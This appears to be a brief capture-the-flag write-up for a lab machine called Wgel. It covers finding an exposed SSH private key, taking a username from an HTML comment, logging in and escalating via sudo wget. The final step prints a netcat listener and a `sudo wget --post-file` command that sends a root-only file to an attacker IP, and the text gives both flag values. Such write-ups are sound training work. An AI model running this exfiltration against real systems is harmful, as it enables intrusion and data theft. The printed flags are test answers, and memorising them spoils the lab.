 # Wgel CTF

A easy, three step-ish room

1. Recon showed ssh and a website on 80
2. The website hosted the default apache page, and a website under /sitemap called 'unapp'.
3. Dirb also discovered /sitemap/.ssh/id_rsa, containing some user's private key. I downloaded this and set its permissions with `chmod 600 wgel.key`

    > A private key allows me to connect over ssh with `ssh -i key user@ip`, no password required. However I needed to find the username.

4. Checking the page sources of the sitemap unapp site, I couldn't spot anything. Eventually I checked the source of the default apache site, and found ` <!-- Jessie don't forget to udate the webiste -->`
5. `ssh -i wgel.key jessie@10.10.162.237` got me in. There was nothing in the base of the user's directory, but `ls **` revealed the `user_flag.txt` under `./Documents`: `057c67131c3d5e42dd5cd3075b198ff6`
6. `sudo -l` revealed the user could execute `wget` as root with no passwd. Wget is interesting - there is no clear way to use it to get a shell, or anything. However, as root, I could post any local file to a remote url if I wished.
7. Guessing the filename, and setting up `nc -nvlp 4444 > out` on my attacker machine, I used `sudo wget --post-file=/root/root_flag.txt 10.10.84.108:4444/` to get the root flag exfiltrated: `b1b968b37519ad1daa6408188649263d`.